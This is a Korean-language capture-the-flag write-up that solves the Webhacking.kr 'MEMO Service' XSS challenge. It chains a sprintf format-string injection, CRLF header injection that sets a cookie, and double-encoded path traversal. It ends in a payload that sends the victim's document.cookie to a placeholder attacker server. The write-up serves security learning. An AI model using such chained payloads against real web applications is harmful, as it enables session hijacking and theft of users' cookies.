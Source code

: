 ```yaml
---
title: ["[Webhacking.kr] MEMO Service (xss - 350)"]
date: 2024-12-14 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, xss]
---
```


```javascript
<script>
function saveMemo(){
  if(input.value){
    memo = getCookie('memo');
    if(!memo) memo = [];
    else memo = JSON.parse(atob(memo));
    memo.push(input.value);
    document.cookie = "memo="+btoa(JSON.stringify(memo));
    input.value="";
  }
  loadMemo();
}
function loadMemo(){
  memo = getCookie('memo');
  if(!memo) memo = [];
  else memo = JSON.parse(atob(memo));
  memoValue = "";
  for(i=0;i<memo.length;i++) memoValue = sprintf(memoValue + "<input disabled value='%s'></input><br>",memo[i].replaceAll("'","\""));
  box.innerHTML = memoValue;
}
function clearMemo(){
  memo = [];
  document.cookie = "memo="+btoa(JSON.stringify(memo));
  loadMemo();
}
function getCookie(name) {
  const value = "; "+document.cookie;
  const parts = value.split("; "+name+"=");
  if (parts.length === 2) return parts.pop().split(";").shift();
}
</script>
```

### 코드 분석
1. `saveMemo()`
  * 사용자가 입력한 메모를 저장하는 함수
  * 메모는 쿠키에 base64로 인코딩되어 저장
  * JSON 형태로 저장되며, 배열 구조를 사용
2. `loadMemo()`
  * 저장된 메모를 화면에 표시하는 함수
  * 쿠키에서 메모를 가져와서 base64 디코딩
  * 각 메모를 disabled input 태그로 화면에 출력
  * `sprintf()`를 사용해 메모 내용을 출력할 때 `'`를 `"`로 변환
3. `clearMemo()`
  * 모든 메모를 삭제하는 함수
4. `getCookie()`
  * 쿠키에서 특정 이름의 값을 가져오는 헬퍼 함수

### 시행착오
```html
<input disabled="" value="hello">
```  
메모로 입력한 값이 html 태그로 화면에 출력된다.  

```html
<input disabled="" value="&quot; onclick=alert(1)><script>alert(2)</script>">>
```
value의 `"`을 닫아보려고 했지만, html 엔티티로 인토딩되어 저장한다.

```javascript
for(i=0;i<memo.length;i++) memoValue = sprintf(memoValue + "<input disabled value='%s'></input><br>",memo[i].replaceAll("'","\""));
```
sprintf로 포맷팅할 때 `'`로 value를 감싸고 있다.  
single quote를 이스케이프 해야하지만, `replaceAll()`함수가 있어 쉽지 않아 보인다.  

여러 input을 테스트해보다 console에서 Uncaught TypeError가 나는 것을 식별했다.  
`sprintf.js`에서 나는 에러였는데, 소스코드를 다시 보니 `sprintf()` 함수가 네이티브 함수가 아니라 임포트된 것이었다.  

### Format String Injection

```javascript
var re = {
    // 포맷 지정자를 찾기 위한 정규식
    placeholder: /^\x25(?:([1-9]\d*)\$|\(([^)]+)\))?(\+)?(0|'[^$])?(-)?(\d+)?(?:\.(\d+))?([b-gijostTuvxX])/
    // ...
}

function sprintf_parse(fmt) {
    while (_fmt) {
        // 일반 텍스트 처리
        if ((match = re.text.exec(_fmt)) !== null) {
            parse_tree.push(match[0])
        }
        // 포맷 지정자 처리
        else if ((match = re.placeholder.exec(_fmt)) !== null) {
            parse_tree.push({
                placeholder: match[0],
                type: match[8],  // 포맷 타입(c, d, s 등)
                // ...
            })
        }
        _fmt = _fmt.substring(match[0].length)
    }
}
```
`sprintf()`는 format string 내부의 모든 포맷 지정자(`%d`, `%s`, `%c` 등)를 찾아서 처리한다.  
포맷 지정자가 문자열 중간에 있어도 인식하고, 발견된 각 포맷 지정자의 타입과 관련된 정보를 parse tree에 저장한다.  

```javascript
function sprintf_format(parse_tree, argv) {
    var cursor = 1
    for (i = 0; i < tree_length; i++) {
        if (typeof parse_tree[i] === 'string') {
            output += parse_tree[i]
        }
        else if (typeof parse_tree[i] === 'object') {
            // 다음 인자를 자동으로 선택
            arg = argv[cursor++]

            switch (ph.type) {
                case 'c':
                    arg = String.fromCharCode(parseInt(arg, 10))
                    break
                case 'd':
                    arg = parseInt(arg, 10)
                    break
                // ...
            }
        }
    }
}
```  
parse tree를 순회하면서 포맷 지정자를 만나면 자동으로 다음 인자를 사용한다.  

이러한 구현 방식 때문에 아래와 같은 동작이 가능하다.  

```javascript
// memo = ["%c><img src=1 onerror=alert(1)></img>","39"]
sprintf("<input value='%s'>",memo[0])
```
1. memo[0]이 `%s`의 인자로 들어감
2. memo[0] 안의 `%c`가 `sprintf_parse()`에 의해 포맷 지정자로 인식됨
3. `sprintf_format`이 `%c`를 처리할 때 자동으로 다음 문자열인 "39"를 사용
4. 39가 ASCII로 변환되어 value 속성을 이스케이프

cookie를 base64 인코딩해서 넣어주면 alert창이 성공적으로 뜬다.  

하지만, 이 접근방식은 쿠키를 수정해야되는데, report 페이지 봇의 쿠키를 어떻게 수정할 수 있을까?  
이전에도 자주 등장한 HTTP Header Injection을 사용하면 된다.  

### HTTP Header Injection
우리의 목표는 report 봇의 쿠키를 인젝션하고 메인페이지에 접속하도록 해야한다.  
burp로 메인페이지에서의 통신을 잡아보면, 클라이언트가 `favicon.ico`를 루트 경로에서 요청했지만, 실제 파일의 위치가 `/static/` 디렉토리에 있다.  
따라서, 서버는 클라이언트에게 새로운 위치로 리다이렉트하도록 `Location` 헤더를 지정해서 응답했다.  
브라우저는 이 응답을 받은 후, 자동으로 `Location` 헤더에 명시된 새 URL로 다시 요청을 보낸다.  

이런 리다이렉트 응답에 `Set-Cookie` 헤더를 인젝션한다면, repost 봇의 쿠키가 수정될 것이다.  

```
// Request
GET /favicon.ico%0d%0aSet-Cookie:memo=123123123 HTTP/1.1

// Response
Location: http://webhacking.kr:10013/static/favicon.ico
Set-Cookie:memo=123123123
```
HTTP Header Injection이 성공적으로 이루어졌다.  
이제 report 봇이 메인 페이지에 접속만 하면 된다.  

### URL Normalization Path Traversal
서버 설정에서 한 가지 흥미로운 점은 `/favicon.ico`로 시작하는 모든 요청을 매칭하여, 매칭된 요청에 대해 `/static`을 앞에 붙여서 리다이렉트 한다는 점이다.  
`/favicon.ico` 뒤에 어떤 문자열을 붙여도 서버는 이를 그대로 리다이렉트 해준다.  

이 점을 이용해서 path traversal을 일으킬 수 있다.  
```
// Request
GET /favicon.ico%2f..%252f..%252f HTTP/1.1

// Response
Location: http://webhacking.kr:10013/static/favicon.ico/..%2f..%2f
```
요청을 `..%252f..%252f`로 더블 인코딩해서 보내면, nginx 서버가 이를 한 번 디코딩해서 `..%2f..%2f`로 리다이렉트 응답을 해준다.  
브라우저는 인코딩 되어 있는 경로를 문자열로 인식하고 그대로 리다이렉션을 요청하며,  
nginx 서버는 이를 다시 디코딩 하여 최종적으로 `/static/favicon.ico/../../` 루트 경로에 접근이 가능하다.  

### 최종 페이로드
Format String Injection과 HTTP Header Injection, URL Normalization Path Traversal을 모두 사용하여 최종 페이로드를 구성할 수 있다.  

```
favicon.ico%2f..%252f..%252f%0d%0aSet-Cookie:memo={base64(["%c><img src=1 onerror=location.href='{SERVER.COM}?'+document.cookie></img>","39"])}
```